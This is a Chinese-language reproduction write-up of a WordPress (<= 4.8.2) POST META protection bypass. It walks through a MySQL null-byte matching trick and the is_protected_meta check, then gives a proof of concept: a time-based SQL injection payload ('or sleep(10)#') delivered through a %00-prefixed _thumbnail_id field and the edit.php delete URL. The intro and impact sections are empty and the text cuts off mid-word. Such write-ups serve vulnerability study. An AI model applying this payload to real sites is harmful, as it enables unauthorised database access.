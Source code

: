 Wordpress \<= 4.8.2 POST META 校验绕过漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 一个MySQL的trick

1). 正常的条件查询语句

    mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
    +---------+---------+----------------+------------+
    | meta_id | post_id | meta_key       | meta_value |
    +---------+---------+----------------+------------+
    |       4 |       4 | _thumbnail_id  | TESTC      |
    +---------+---------+----------------+------------+
    1 row in set (0.00 sec)

2). 现在我们将\_thumbnail\_id修改成"\\x00\_thumbnail\_id"

    mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
    Query OK, 0 rows affected (0.00 sec)
    Rows matched: 0  Changed: 0  Warnings: 0

3). 再次执行第一步的查询

    mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
    +---------+---------+----------------+------------+
    | meta_id | post_id | meta_key       | meta_value |
    +---------+---------+----------------+------------+
    |       4 |       4 |  _thumbnail_id | TESTC      |
    +---------+---------+----------------+------------+
    1 row in set (0.00 sec)

我们可以发现依然可以查询出修改后的数据。

### POST META 校验绕过

我们来看下检查meta\_key的代码，文件./wp-includes/meta.php：

    function is_protected_meta( $meta_key, $meta_type = null ) {
        $protected = ( '_' == $meta_key[0] );
        /**
         * Filters whether a meta key is protected.
         *
         * [@since](/since) 3.2.0
         *
         * [@param](/param) bool   $protected Whether the key is protected. Default false.
         * [@param](/param) string $meta_key  Meta key.
         * [@param](/param) string $meta_type Meta type.
         */
        return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
    }

is*protected\_meta函数只检查了\$meta\_key的第一个字符是否以*开头。我们有了2.1的MySQL
trick，想要绕过meta\_key的检查就显得容易多了。

### poc

    添加自定义字段，meta_key为’_thumbnail_id’的meta_value为’55 %1$%s or sleep(10)#’
    在添加自定义栏目/字段时抓包，将_thumbnail_id替换为%00_thumbnail_id
    访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发SQL注入漏洞
    参
